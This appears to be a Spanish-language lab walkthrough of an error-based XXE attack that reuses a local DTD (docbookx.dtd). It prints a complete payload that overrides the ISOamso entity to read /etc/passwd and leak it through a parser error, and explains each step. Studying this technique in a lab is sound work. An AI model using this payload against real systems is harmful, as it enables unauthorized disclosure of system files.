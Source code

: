 En esta clase, continuamos con el mismo laboratorio anterior, en el que reutilizamos un DTD local del sistema para realizar un ataque XXE. En esta segunda parte, terminamos de afinar la carga útil que redefine una entidad del archivo ‘**docbookx.dtd**‘ y genera un error controlado que nos permite exfiltrar el contenido del archivo /etc/passwd.

El objetivo es que, al provocar este error, el mensaje resultante contenga el contenido del archivo, lo cual permite resolver el laboratorio sin necesidad de respuestas visibles ni conexiones externas. Esta técnica es especialmente útil en entornos restringidos donde no es posible interactuar con servidores externos.
Solucion
siguiendo con la solucion vamos a  construir un payload
payload (<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>)
Que hace ?
### Paso a paso

1. **`<!DOCTYPE message [...]>`**  
    Se declara un tipo de documento con una definición interna de entidades.
    
2. **`<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">`**  
    Se intenta cargar una DTD externa (local en el sistema) para expandir nuevas entidades. En este caso, `docbookx.dtd`, que se supone debe incluir una entidad llamada `ISOamso`.
    
3. **`<!ENTITY % ISOamso ' ... '>`**  
    Si `docbookx.dtd` define `%ISOamso`, lo redefine con un nuevo contenido (es un tipo de _entity override_).
    
4. **Dentro del redefinido `ISOamso`**:
    
    xml
    `<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;`
    
    - `%file` carga el archivo `/etc/passwd`.
        
    - `%eval` crea una entidad `%error` que intenta cargar un archivo inexistente con el contenido de `%file` como parte de la ruta.
        
    - `%eval;` y `%error;` expanden esas entidades.
### 🎯 Objetivo final

El objetivo de este payload es forzar al parser XML a:

- **Leer `/etc/passwd`.**
    
- **Inyectar su contenido como parte de una URL**, causando un error de carga en `file:///nonexistent/<contenido_de_passwd>`, lo cual puede provocar que el contenido del archivo aparezca en logs o mensajes de error, revelando información sensible.

y este codigo lo injectamos y con esto leemos el archivo etc/passwd
![Pasted_image_20250802192652.png](Imagenes/Pasted_image_20250802192652.png)
